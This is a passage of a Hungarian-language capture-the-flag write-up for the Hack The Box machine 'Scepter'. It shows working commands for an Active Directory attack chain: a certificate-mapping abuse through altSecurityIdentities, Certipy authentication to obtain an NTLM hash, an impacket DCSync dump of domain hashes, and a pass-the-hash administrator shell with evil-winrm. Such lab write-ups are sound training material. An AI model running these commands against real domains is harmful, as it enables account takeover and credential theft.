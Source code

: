 ```python
    parser.add_argument('-issuer', required=True, help='Certificate issuer')
    args = parser.parse_args()
    convert(args.serial, args.issuer)
```
**Futtatás:**
```bash
python3 conv.py -serial 62:00:00:00:09:92:96:68:CF:F0:98:1A:D8:00:00:00:00:00:09 -issuer "DC=htb, DC=scepter, CN=scepter-DC01-CA"
```
Kimenet pl.:
```
X509:<I>DC=htb,DC=scepter,CN=scepter-DC01-CA<SR>090000000000d81a98f0cf6896920900000062
```

---

## PowerShell: altSecurityIdentities beállítása

```powershell
$map = 'X509:<I>DC=htb,DC=scepter,CN=scepter-DC01-CA<SR>090000000000d81a98f0cf6896920900000062'
Set-ADUser p.adams -Replace @{altSecurityIdentities=$map}
```

---

## Certipy auth p.adams-ként

```bash
certipy auth -pfx meow.pfx -dc-ip 10.10.11.65 -username p.adams
```
Hash: `aad3b4...:1b925c...`

---

## DCSync (ADDC hash dump)

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -just-dc -hashes aad3b4...:1b925c... scepter.htb/p.adams@10.10.11.65
```

---

## Pass-the-Hash Admin shell

```bash
evil-winrm -i 10.10.11.65 -u Administrator -H a291ea...
```

Root flag pipa!

---

---
